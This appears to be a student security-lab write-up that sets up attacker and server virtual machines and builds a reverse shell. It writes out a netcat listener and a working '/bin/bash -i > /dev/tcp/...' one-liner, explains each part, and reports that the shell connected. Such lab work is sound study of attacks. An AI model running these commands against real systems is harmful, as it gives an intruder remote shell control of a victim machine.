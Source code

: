 ## TASK05
### 5.1 Prepare for server and client
For this task, we cloned another virtual machine and set the two machines in same NAT networks.
```shell
# Commands for the server
$ echo 'export PS1="[SEV]\[\e[1;36m\]\u@\h\[\e[m\]:\w\\$ "' >> /.bashrc
$ source ~/.bashrc
# Commands for the attacker
$ echo 'export PS1="[ATC]\[\e[1;31m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
```
We also used the commands above to configure their bash prompt, which can help us identify them more easily. As the image shows, we used the left one as server and right one as attacker. 
![](/assets/images/16326883206491/16327681715222.jpg)

### 5.2 Reverse Shell
We used two key steps to get a reverse shell: First, the attacker need to start a TCP server to listening a specific port number, which will be used to interact with the bash program on a victim server; Second is to make the server change its `stdout`, `stdin` and `stderr` to TCP socket connected with the IP and port number of the attacker's device.  
#### 5.2.1 Step 01
We used `netcat` with option -l to implement the first one. The command is: 
```shell
$ nc -l 9090 -v
```
It will start a TCP server listing on port number 9090. When it receives any messages from the victim server, it will output them on the attacker's terminal. Due to the bilateral communication of TCP connection, the attacker can also send commands to the server. 
#### 5.2.2 Step 02
We implemented the second one by executing the command below on the server: 
```shell
$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```
In the command, the option `i` means the interactive model that will show the bash prompt. The `> /dev/.../9090` makes the `stdout` to the TCP socket connected with `10.0.2.15:9090`. `0<&1` and means also change the $1$ (`stdin`) and $2$ (`stderr`) to the socket. 

#### 5.2.3 Commands outputs
The image below shows the outputs of our commands. The left is our victim server and the right is our attacker. We started the `netcat` program at first, and it successfully connected with the $10.0.2.6$ (server's IP), after executing of the `bash -i ...` command on the server. We verified the attack by `hostname -I` which can output all IP addresses of a device. 